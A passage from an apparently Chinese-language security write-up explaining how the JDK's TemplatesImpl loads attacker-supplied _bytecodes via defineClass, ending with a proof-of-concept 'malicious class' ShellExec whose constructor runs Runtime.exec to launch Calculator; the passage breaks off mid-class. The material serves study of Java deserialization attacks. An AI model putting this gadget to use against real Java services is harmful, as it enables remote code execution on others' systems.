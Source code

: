 ```java
        if (classCount > 1) {
            _auxClasses = new Hashtable();
        }
        for (int i = 0; i < classCount; i++) {
            _class[i] = loader.defineClass(_bytecodes[i]);
            final Class superClass = _class[i].getSuperclass();
            // Check if this is the main class
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                _transletIndex = i;
            }
            else {
                _auxClasses.put(_class[i].getName(), _class[i]);
            }
        }
        if (_transletIndex < 0) {
            ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    } catch (ClassFormatError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    } catch (LinkageError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
}
```

可以看到该方法将会遍历我们传入的_bytecodes数组，执行loader.defineClass方法，而TransletClassLoader类的defineClass方法如下:

```java
Class defineClass(final byte[] b) {
    return defineClass(null, b, 0, b.length);
}
```

可以看到该方法会将我们传入的编码后的class文件加载入jvm。

而我们的恶意类继承于ABSTRACT_TRANSLET，即com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet，因此便会设置_transletIndex为0。

再回到我们的getTransletInstance方法中，

```java
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
```

生成了一个我们的恶意类的对象实例，因此导致了我们的恶意类中的代码最后被执行。

这里我们使用的恶意类如下:

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class ShellExec extends AbstractTranslet{
    public ShellExec() throws IOException{
        Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
```